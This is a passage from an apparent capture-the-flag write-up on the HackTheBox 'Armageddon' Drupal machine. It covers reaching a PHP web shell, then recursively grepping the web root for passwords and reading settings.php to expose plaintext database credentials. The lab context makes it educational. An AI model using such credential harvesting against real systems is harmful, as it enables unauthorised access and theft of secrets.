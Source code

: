 And we get PHP Web shell to RCE.

But we can't use reverse shell because of system settings this machine.

# Privilege Escalation#1

Trying to find some credentianals..

```
armageddon.htb>> grep -r -i "password"
CHANGELOG.txt:- Fixed that following a password reset link while logged in leaves users unable
CHANGELOG.txt:  to change their password (minor user interface change:
CHANGELOG.txt:  elements, such as textfields, textareas, and password fields (API change:
CHANGELOG.txt:- Changed the password reset form to pre-fill the username when requested via a
...
sites/default/default.settings.php: *     'password' => 'password',
sites/default/default.settings.php: * by using the username and password variables. The proxy_user_agent variable
sites/default/default.settings.php:# $conf['proxy_password'] = '';
sites/default/settings.php: *   'password' => 'password',
sites/default/settings.php: * username, password, host, and database name.
sites/default/settings.php: *   'password' => 'password',
sites/default/settings.php: *   'password' => 'password',
sites/default/settings.php: *     'password' => 'password',
sites/default/settings.php: *     'password' => 'password',
sites/default/settings.php:      'password' => 'CQHEy@9M*m23gBVj',
sites/default/settings.php: * by using the username and password variables. The proxy_user_agent variable
sites/default/settings.php:# $conf['proxy_password'] = '';
themes/bartik/css/ie.css:#password-strength-text {
themes/bartik/css/style-rtl.css:/* -------------- Password Meter  ------------- */
...
```

And we find interesting password *'password' => 'CQHEy@9M*m23gBVj',* in file *sites/default/settings.php*.

Let's read this file

```
armageddon.htb>> cat sites/default/settings.php 
<?php

/**
 * @file
 * Drupal site-specific configuration file.
 *
 
...

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

```
